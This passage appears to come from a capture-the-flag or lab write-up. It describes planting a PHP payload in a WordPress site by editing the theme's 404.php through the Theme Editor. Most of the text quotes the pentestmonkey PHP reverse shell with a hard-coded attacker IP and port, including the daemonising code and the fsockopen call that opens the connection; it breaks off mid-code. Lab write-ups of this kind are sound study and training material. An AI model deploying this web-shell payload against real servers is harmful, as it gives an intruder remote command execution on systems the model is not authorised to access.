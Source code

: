 Searching the site we can easily find plugins, however, when I tried to add new nothing happened. Nevertheless, if we go Appearance -> Theme Editor -> 404.php we can add php payload.

I used the following php payload:

```php
<?php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.18.7.222';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
```